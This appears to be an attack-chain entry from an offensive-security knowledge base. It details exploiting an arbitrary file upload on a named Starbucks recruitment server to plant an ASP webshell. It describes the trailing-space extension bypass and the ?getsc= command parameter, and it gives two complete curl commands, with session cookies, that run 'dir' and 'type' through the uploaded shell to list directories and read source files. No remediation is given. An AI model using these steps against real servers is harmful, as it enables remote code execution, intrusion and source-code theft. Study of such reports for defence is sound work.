

---
tags:
  - file-upload
  - webshell
  - rce
  - asp-net
type: attack_chain
tools:
  - '[[Burp Suite]]'
  - '[[curl]]'
tactics:
  - '[[TA0001]]'
  - '[[TA0002]]'
commands:
  - '[[curl-execute-dir-command]]'
  - '[[curl-execute-type-command]]'
platforms:
  - Web
  - Windows
complexity: medium
procedures:
  - '[[Sign In and Navigate to Resume Endpoint]]'
  - '[[Intercept and Modify Avatar Upload Request]]'
  - '[[Upload Malicious ASP File]]'
  - '[[Access Webshell and Execute OS Commands]]'
step_count: 4
techniques:
  - '[[T1190]]'
  - '[[T1059]]'
description: >-
  Multi-stage attack exploiting arbitrary file upload in avatar functionality to
  deploy a webshell and achieve remote code execution on a Starbucks recruitment
  server.
skill_level: intermediate
impact_level: high
id: 868005cd-f032-40ad-a15f-f8b96e7e29e0
created_at: '2025-12-11T06:04:35.066Z'
updated_at: '2025-12-11T06:04:35.066Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0002]]'
mitre_techniques:
  - '[[T1190]]'
  - '[[T1059]]'
---
# Arbitrary File Upload to Webshell and RCE on Starbucks Recruitment Site

Multi-stage attack chain demonstrating exploitation of an arbitrary file upload vulnerability in the avatar upload functionality on ecjobs.starbucks.com.cn, leading to webshell deployment and arbitrary OS command execution. This allows disclosure of internal source code and potential server compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[Burp Suite]]
- [[curl]]

### Target Environment

- Web platform on Windows
- ASP.NET with wswaf/2.13.0-5.el6
- Access to https://ecjobs.starbucks.com.cn

### Initial Access Requirements

- Valid user credentials for login
- Network access to the target site
- Proxy tool setup for interception

## Detailed Attack Procedures

### Step 1: Initial Access

**Procedure**: [Sign-In-and-Navigate-to-Resume-Endpoint](../procedures/Sign-In-and-Navigate-to-Resume-Endpoint.md)

**Objective**: Gain authenticated access to the resume upload feature to reach the vulnerable avatar upload endpoint.

**Expected Output**: Successful login and navigation to the resume management page.

**Success Indicators**:
- Valid session cookies obtained
- Access to upload functionality confirmed

### Step 2: Intercept Upload

**Procedure**: [Intercept-and-Modify-Avatar-Upload-Request](../procedures/Intercept-and-Modify-Avatar-Upload-Request.md)

**Objective**: Use a proxy to capture the HTTP request for avatar upload and prepare for modification.

**Expected Output**: Captured HTTP request in Burp Suite ready for editing.

**Success Indicators**:
- Request intercepted successfully
- File upload parameters visible for modification

First, configure [[Burp Suite]] as a proxy and intercept the upload request.

### Step 3: Upload Webshell

**Procedure**: [Upload-Malicious-ASP-File](../procedures/Upload-Malicious-ASP-File.md)

**Objective**: Modify the filename to bypass extension validation by adding a trailing space and upload malicious ASP code for webshell functionality.

**Expected Output**: Successful upload of the ASP file to the tempfiles directory.

**Success Indicators**:
- Server accepts the file with .asp extension
- Upload response indicates success

In [[Burp Suite]], change the filename to something like 'file.asp ' (with trailing space) and insert ASP code that executes commands via ?getsc= parameter.

### Step 4: Execute RCE

**Procedure**: [Access-Webshell-and-Execute-OS-Commands](../procedures/Access-Webshell-and-Execute-OS-Commands.md)

**Objective**: Access the uploaded webshell and execute arbitrary OS commands to list directories or read files.

**Expected Output**: Command output returned in the HTTP response.

**Success Indicators**:
- Directory listings or file contents disclosed
- Confirmation of RCE on the server

Use [[curl-execute-dir-command]] to list directories:

```bash
curl -i -s -k -X 'GET' -H 'Host: ecjobs.starbucks.com.cn' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: close' -H 'Cookie: _ga=GA1.3.779308870.1546486037; ASP.NET_SessionId=w2dbbzgyv3cu0hiiwkysnooo; ASPSESSIONIDSSSBQTQR=FKJDKLGAKJKDALIKOJMJBLAF; ASPSESSIONIDSQRDSRRR=DLNDLPJANKNIAGPMFDEGFLIF' -H 'Upgrade-Insecure-Requests: 1' -b '_ga=GA1.3.779308870.1546486037; ASP.NET_SessionId=w2dbbzgyv3cu0hiiwkysnooo; ASPSESSIONIDSSSBQTQR=FKJDKLGAKJKDALIKOJMJBLAF; ASPSESSIONIDSQRDSRRR=DLNDLPJANKNIAGPMFDEGFLIF' 'https://ecjobs.starbucks.com.cn/recruitjob/tempfiles/temp_uploaded_739175df-5949-4bba-9945-1c1720e8e109.asp?getsc=dir%20d:\TrustHX\STBKSERM101\www_app%20/d/s/b'
```

Then use [[curl-execute-type-command]] to read a file:

```bash
curl -i -s -k -X 'GET' -H 'Host: ecjobs.starbucks.com.cn' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: close' -H 'Cookie: _ga=GA1.3.779308870.1546486037; ASP.NET_SessionId=w2dbbzgyv3cu0hiiwkysnooo; ASPSESSIONIDSSSBQTQR=FKJDKLGAKJKDALIKOJMJBLAF; ASPSESSIONIDSQRDSRRR=DLNDLPJANKNIAGPMFDEGFLIF' -H 'Upgrade-Insecure-Requests: 1' -b '_ga=GA1.3.779308870.1546486037; ASP.NET_SessionId=w2dbbzgyv3cu0hiiwkysnooo; ASPSESSIONIDSSSBQTQR=FKJDKLGAKJKDALIKOJMJBLAF; ASPSESSIONIDSQRDSRRR=DLNDLPJANKNIAGPMFDEGFLIF' 'https://ecjobs.starbucks.com.cn/recruitjob/tempfiles/temp_uploaded_739175df-5949-4bba-9945-1c1720e8e109.asp?getsc=type%20d:\TrustHX\STBKSERM101\www_app\concurrent_test\new_application_concurrent_test__svc.cs'
```

## Attack Chain Summary

### Key Achievements

1. Bypassed file upload restrictions to deploy webshell
2. Achieved arbitrary command execution on Windows server
3. Disclosed internal source code and file structures

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[T1190]]
- [[T1059]]

### MITRE ATT&CK Tactics

- [[TA0001]]
- [[TA0002]]

*Last updated: 2023-10-01*
